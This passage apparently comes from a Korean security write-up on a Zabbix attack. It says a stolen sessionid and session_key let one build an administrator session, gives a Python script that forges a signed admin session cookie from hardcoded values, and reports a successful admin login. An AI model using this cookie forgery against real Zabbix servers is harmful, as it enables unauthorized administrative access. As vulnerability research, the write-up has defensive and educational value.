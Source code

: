 따라서, 탈취한 `sessionid` 와 `session_key` 를 통해 관리자의 세션을 생성할 수 있습니다.

```python
import hmac
import hashlib
import base64
import json
import time
from collections import OrderedDict

def generate_session_cookie(session_id, session_key):
    def calculate_signature(data, key):
        key_bytes = key.encode()
        data_bytes = data.encode('utf-8')
        return hmac.new(key_bytes, data_bytes, hashlib.sha256).hexdigest()

    def encode_session_data(session_data, key):
        session_data_sorted = OrderedDict(sorted(session_data.items()))
        session_data_sorted['sign'] = calculate_signature(json.dumps(session_data_sorted, separators=(',', ':')), key)
        encoded_data = base64.b64encode(json.dumps(session_data_sorted, separators=(',', ':')).encode('utf-8')).decode('utf-8')
        return encoded_data

    session_structure = {
        "sessionid": session_id,
        "serverCheckResult": True,
        "serverCheckTime": int(time.time())
    }

    return encode_session_data(session_structure, session_key)

if __name__ == "__main__":
    session_id = "f16aac39b446fc135e8ef19345e148d4"
    session_key = "c6a271aa63d4657cc5bcb3cfd26bbe95"
    admin_session_cookie = generate_session_cookie(session_id, session_key)
    print(f"Generated Zabbix admin session cookie: {admin_session_cookie}")

```

![/assets/2025-01-02-youngdu/image.png](/assets/2025-01-02-youngdu/image%208.png)

생성된 세션을 통해 정상적으로 관리자로 로그인이 되는 것을 확인할 수 있습니다.
